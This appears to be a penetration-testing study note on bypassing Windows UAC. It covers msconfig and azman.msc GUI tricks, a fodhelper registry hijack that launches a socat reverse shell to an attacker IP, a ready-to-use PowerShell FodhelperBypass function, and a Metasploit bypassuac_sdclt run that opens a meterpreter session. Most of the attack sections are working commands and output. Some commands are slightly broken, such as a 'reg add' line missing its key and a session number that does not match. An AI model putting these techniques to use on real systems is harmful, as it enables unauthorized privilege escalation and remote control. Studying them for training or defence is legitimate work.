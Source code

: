 
## With GUI access
### 1. Using msconfig
Our goal is to obtain access to a High IL command prompt without passing through UAC. First, let's start by opening msconfig, either from the start menu or the "Run" dialog:  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/30570f96439f9de572fe97ba508ccdfa.png)

If we analyze the msconfig process with Process Hacker (available on your desktop), we notice something interesting. Even when no UAC prompt was presented to us, msconfig runs as a high IL process:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/478a3577ffcd0c186529d9edd34545f4.png)  

This is possible thanks to a feature called auto elevation that allows specific binaries to elevate without requiring the user's interaction. More details on this later.

If we could force msconfig to spawn a shell for us, the shell would inherit the same access token used by msconfig and therefore be run as a high IL process. By navigating to the Tools tab, we can find an option to do just that:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/efbc49a8c7acfe3f296d0cb46cd2f75a.png)  

If we click Launch, we will obtain a high IL command prompt without interacting with UAC in any way.

### 2. Using azman.msc
As with msconfig, azman.msc will auto elevate without requiring user interaction. If we can find a way to spawn a shell from within that process, we will bypass UAC. Note that, unlike msconfig, azman.msc has no intended built-in way to spawn a shell. We can easily overcome this with a bit of creativity.

First, let's run azman.msc:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/769ef59be8fc62884e69a0b39422b2a5.png)  

We can confirm that a process with high IL was spawned by using Process Hacker. Notice that all .msc files are run from mmc.exe (Microsoft Management Console):

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2fd110f80a236ea5bbb06518b519b440.png)  

To run a shell, we will abuse the application's help:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2f1aef0aa39ffcf9056999c939e43b8d.png)  

On the help screen, we will right-click any part of the help article and select **View Source**:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/43e3967d4cdb4c30dc46e7ce81eb2825.png)  

This will spawn a notepad process that we can leverage to get a shell. To do so, go to **File->Open** and make sure to select **All Files** in the combo box on the lower right corner. Go to `C:\Windows\System32` and search for `cmd.exe` and right-click to select Open:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/8ae24b569d5d95119e79feb425e1b7ff.png)  

This will once again bypass UAC and give us access to a high integrity command prompt. You can check the process tree in Process Hacker to see how the high integrity token is passed from mmc (Microsoft Management Console, launched through the Azman), all the way to cmd.exe:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/7fb637209e08c712615b992b9d0533ca.png)


## Non-GUI UAC bypass
### 1. fodhelper

Once connected, we check if our user is part of the Administrators group and that it is running with a medium integrity token:

Attacker's Shell
```
Microsoft Windows [Version 10.0.17763.1821] (c) 2018 Microsoft Corporation. All rights reserved.  

C:\Windows\system32>whoami 
myserver\attacker  

C:\Windows\system32>net user attacker | find "Local Group" 
Local Group Memberships      *Administrators       *Users                  

C:\Windows\system32>whoami /groups | find "Label" 
Mandatory Label\Medium Mandatory Level        Label       S-1-16-8192
```


We set the required registry values to associate the ms-settings class to a reverse shell. For your convenience, a copy of **socat** can be found on `c:\tools\socat\`. You can use the following commands to set the required registry keys from a standard command line:

Command Prompt

```
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command 

C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"  

C:\> reg add 
/v "DelegateExecute" /d "" /f 
The operation completed successfully.  

C:\> reg add %REG_KEY% /d %CMD% /f 
The operation completed successfully.
```

> Note: change the "set CMD=" to whatever payload we want to run as system 
> e.g **set CMD="powershell -windowstyle hidden c:\\temp\\shell.exe**

Notice how we need to create an empty value called **DelegateExecute** for the class association to take effect. If this registry value is not present, the operating system will ignore the command and use the system-wide class association instead.

We set up a listener by using netcat in our machine:

`nc -lvp 4444`  

And then proceed to execute **fodhelper.exe**, which in turn will trigger the execution of our reverse shell:  

![[Pasted image 20231015162741.png]]

### 2. Using PS script and fodhelper (EASIER)

1. download the following script.
2. import the module
3. run `Fodhelper -program C:\users\public\shell.exe` 
```
function FodhelperBypass(){ 
 
Param (    
 
 [String]$program = "cmd /c start powershell.exe" #default
 
      )
 
#Create registry structure
 
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $program -Force
 
#Perform the bypass
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
 
#Remove registry structure
Start-Sleep 3
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
 
}

### run any program using 'Fodhelper -program cmd' or 'Fodhelper -program C:\users\public\shell.exe'
# How to: https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/

```
### 2. Using Metasploit

```sh
msf6 exploit(multi/handler) > search UAC

Matching Modules
================
# Name Disclosure Date Rank
Check Description
- ---- --------------- ----
----- -----------
- ---- --------------- ----
----- -----------
0 post/windows/manage/sticky_keys normal
No Sticky Keys Persistance Module
1 exploit/windows/local/cve_2022_26904_superprofile 2022-03-17
excellent Yes User Profile Arbitrary Junction Creation Local Privilege Elevation
2 exploit/windows/local/bypassuac_windows_store_filesys 2019-08-22 manual
Yes Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe)
3 exploit/windows/local/bypassuac_windows_store_reg 2019-02-19 manual
Yes Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe) and Registry
...
11 exploit/windows/local/bypassuac_sdclt 2017-03-17
excellent Yes Windows Escalate UAC Protection Bypass (Via Shell Open Registry Key)
12 exploit/windows/local/bypassuac_silentcleanup 2019-02-24
excellent No Windows Escalate UAC Protection Bypass (Via SilentCleanup)
```


One very effective UAC bypass on modern Windows systems is **exploit/windows/local/bypassuac_sdclt**, which targets the Microsoft binary sdclt.exe. 

This binary can be abused to bypass UAC by spawning a process with integrity level High.999 To use the module, we’ll activate it and set the SESSION and LHOST options as shown in the following listing. Setting the SESSION for post-exploitation modules allows us to directly execute the exploit on the active session. Then, we can enter run to launch the module.

```sh
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac_sdclt
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_sdclt) > show options
Module options (exploit/windows/local/bypassuac_sdclt):
Name Current Setting Required Description
---- --------------- -------- -----------
PAYLOAD_NAME no The filename to use for the payload binary
(%RAND% by default).
SESSION yes The session to run this module on
Payload options (windows/x64/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------

EXITFUNC process yes Exit technique (Accepted: '', seh, thread,
process, none)
LHOST yes The listen address (an interface may be
specified)
LPORT 4444 yes The listen port
...

msf6 exploit(windows/local/bypassuac_sdclt) > set SESSION 9
SESSION => 32

msf6 exploit(windows/local/bypassuac_sdclt) > set LHOST 192.168.119.4
LHOST => 192.168.119.4

msf6 exploit(windows/local/bypassuac_sdclt) > run
[*] Started reverse TCP handler on 192.168.119.4:4444
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[!] This exploit requires manual cleanup of
'C:\Users\offsec\AppData\Local\Temp\KzjRPQbrhdj.exe!
[*] Please wait for session and cleanup....
[*] Sending stage (200774 bytes) to 192.168.50.223
[*] Meterpreter session 10 opened (192.168.119.4:4444 -> 192.168.50.223:49740) at
2022-08-04 09:03:54 -0400
[*] Registry Changes Removed

meterpreter >
```
